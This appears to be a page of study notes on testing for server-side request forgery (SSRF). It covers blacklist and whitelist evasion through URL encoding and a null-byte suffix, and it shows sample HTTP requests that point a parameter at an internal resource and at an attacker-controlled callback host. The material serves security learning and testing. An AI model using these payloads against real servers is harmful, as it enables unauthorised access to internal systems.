

## Testing for SSRF Vulnerabilities

To effectively test for SSRF vulnerabilities, one must understand both the in-band and out-of-band scenarios and how to circumvent potential defenses.

### Circumventing Defenses

#### Blacklist Evasion

If the server employs a blacklist to prevent certain URLs from being requested, attackers can use various evasion techniques. These techniques often involve encoding or obfuscating the URL to bypass the blacklist.

```python
# Example of a simple URL encoding to bypass a blacklist
url = "http://localhost"
encoded_url = url.replace("http", "%68%74%74%70")
print(encoded_url)
```

#### White List Evasion

If the server uses a whitelist to allow only specific URLs, attackers can exploit how the URL parser interprets the URL. For instance, some parsers may not correctly handle certain characters or encodings.

```python
# Example of a URL that might bypass a strict whitelist
url = "http://example.com"
whitelist_bypass = "http://example.com.%00"
print(whitelist_bypass)
```

### Testing for In-Band SSRF

To test for in-band SSRF, an attacker can modify request parameters to point to internal resources and observe the server's response. This can be done using tools like Burp Suite or manual HTTP requests.

```http
POST /api/resource HTTP/1.1
Host: vulnerable.example.com
Content-Type: application/x-www-form-urlencoded

url=http://internal-resource.example.com
```

### Testing for Out-of-Band SSRF

For out-of-band SSRF, the attacker modifies request parameters to point to a server they control and monitors for incoming requests. This technique is often used with services like Burp Collaborator.

```http
POST /api/resource HTTP/1.1
Host: vulnerable.example.com
Content-Type: application/x-www-form-urlencoded

url=http://attacker-controlled.example.com
```

### Monitoring Time Delays

If the server does not return the result of the HTTP request, the attacker can monitor the time delay in the server's response. A longer delay might indicate that the server is attempting to access a non-existent resource.



---
<!-- nav -->
[[16-Server-Side Request Forgery (SSRF)|Server-Side Request Forgery (SSRF)]] | [[Web Security (PortSwigger)/09-Server-Side Request Forgery (SSRF)/01-Server Side Request Forgery SSRF Complete Guide/00-Overview|Overview]] | [[18-Understanding Server-Side Request Forgery (SSRF)|Understanding Server-Side Request Forgery (SSRF)]]
